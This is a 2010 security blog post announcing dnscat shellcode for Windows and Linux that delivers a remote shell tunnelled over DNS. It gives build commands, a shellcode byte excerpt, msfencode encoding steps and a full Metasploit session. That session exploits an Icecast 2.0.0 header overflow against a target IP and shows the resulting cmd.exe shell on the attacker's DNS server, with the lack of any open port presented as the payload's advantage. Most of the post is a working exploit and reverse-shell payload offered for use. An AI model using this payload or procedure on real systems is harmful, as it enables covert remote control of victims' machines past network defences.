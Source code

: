 ```yaml
---
id: 611
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-18T08:50:52-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=611'
permalink: /2010/weaponizing-dnscat-with-shellcode-and-metasploit
categories:
    - dns
    - hacking
    - tools
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!
<!--more-->
If you just want to grab the files, here are some links:
<ul>
<li><a href='/blogdata/dnscat-shell-win32.asm'>Win32 shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-win32'>Win32 shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-win32.h'>Win32 shellcode - C array</a></li>
<li><a href='/blogdata/dnscat-shell-win32.rb'>Win32 Metasploit module</a></li>
<li><a href='/blogdata/dnscat-shell-linux.asm'>Linux shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-linux'>Linux shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-linux.h'>Linux shellcode - C array</a></li>
</ul>

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:
<pre>svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make</pre>

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-*/. A .h file containing the C version will be generated, as well:
<pre>$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
</pre>

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:
<pre> $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
</pre>

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:
<pre>get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; <-- To modify domain, change this...
 db 3,'org' ; <-- and this. The number is the section length.
 db 0
</pre>

The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. 

<h2>Encoding with msfencode</h2>
msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:
<pre>$ msfencode -b "\x00" < dnscat-shell-win32 > dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)
</pre>

If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. 

<h2>Metasploit payload</h2>
Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. 

First, there are a number of caveats:
<ul>
<li>This is highly experimental</li>
<li>This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the process</li>
<li>This is set up as a single stage, right now, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities</li>
<li>The dnscat server isn't part of Metasploit, yet, so you'll have to compile run it separately</li>
</ul>
That being said, it also works great when it's usable. The target I use for testing is <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast 2 version 2.0.0</a> (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs (thanks Ed!). It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are, 
<ol>
<li>Install <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast2</a> on your victim machine (Win32)</li>
<li>Download the experimental dnscat <a href='/blogdata/dnscat-shell-win32.rb'>Metasploit module</a> and put it in your Metasploit directory (modules/payloads/singles/windows/)</li>
<li>Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the <a href='/wiki/index.php/Dnscat'>dnscat wiki</a> for more information</li>
<li>Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:</li>
<pre>msf > use exploit/windows/http/icecast_header

msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32

msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221

msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org

msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
</pre>

Meanwhile, on your dnscat server, if all went well, you should see:
<pre>$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
</pre>

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS. 

<h2>Why bother?</h2>
The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

<h2>Feedback</h2>
As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code. 

Thanks!
